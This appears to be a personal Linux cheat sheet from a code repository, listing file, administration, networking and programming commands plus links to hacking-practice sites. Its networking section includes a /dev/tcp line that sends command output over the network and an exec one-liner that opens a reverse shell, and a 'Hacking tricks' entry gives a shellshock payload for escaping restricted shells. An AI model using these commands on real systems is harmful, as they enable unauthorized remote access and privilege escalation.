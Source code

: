 # Linux cheat sheet 
A quick reference for less commonly used commands and tricks.

## Useful One-Liners

    * Checking md5 sums: 
    For macos:
        `curl -s https://site.com/md5sumfile.md5 && md5 -q /path/to/object`
    For Linux:
        `echo "$(curl -s https://amazon-ecs-cli.s3.amazonaws.com/ecs-cli-linux-amd64-latest.md5) /usr/local/bin/ecs-cli" | md5sum -c -`

## File Management
**`xxd`**
    Create hex dumps

**`strings`**
    Good for getting readable text out of dumps

**`uniq`**
    Isolate unique lines in file

**`diff`**
    Examine file differences. vimdiff better for extensive edits

**`patch`**
    Apply changes to files

**`mkfifo`**
    first in first out pipe. 

## Administration
**`adduser`, `addgroup`**
    Prefer this over useradd/groupadd

**`groups`**
    What groups does the user belong to

**`usermod`**
    To add a user to groups:
        `usermod -aG [groups to add] [user]

**`id`**
    If you need queries beyond `groups`

**`dpkg`**
    For deb files. `-r` to remove things

## Networking
**`nmap`**
    Port scanning. 

**`nc` or nmap's `ncat`**
    Swiss army knife for network testing.

**`telnet`**
    Deprecated, but useful for port testing

**`openssl`**
    Openssl utility: key management, cert generation, etc.

**`/dev/tcp`**
    Can redirect things through network connections with `/dev/tcp/"ip"/"port"`. Not
    a real file, but more of a bash construct. Useful injection command. Has udp variant too. 
    ex. `bash -c "id &> /dev/tcp/127.0.0.1/80"`

**`exec "file-descriptor"<>"file"`**
    Can be used to create a read-write file for network communication in lieu netcat.
    Ex. `exec 134<>/dev/tcp/127.0.0.1/30002; bash <&134 >&134 2>&1 &` will open up
    an interactive shell. Just have a listener on port 30002 of the 127.0.0.1 machine

## Programming
**`ldconfig`**
    Can see installed libs, etc. `-p` to print

**`ldd`**
    Useful to find what a program is linked against.

**`checkinstall`**
    For removing packages built from source with no uninstall hook

## Hacking tricks

**shellshock**
    `ssh user@host '() { :;}; echo BAD CODE'` allows an authorized user with an authorized key
    to execute restricted commands. Good for restriced shell escalating.

## Sites

https://overthewire.org
https://www.scip.ch/en/?labs.20181206
https://hackthebox.eu
https://root-me.org
https://lolbas-project.github.io/#
https://gtfobins.github.io/#+shell
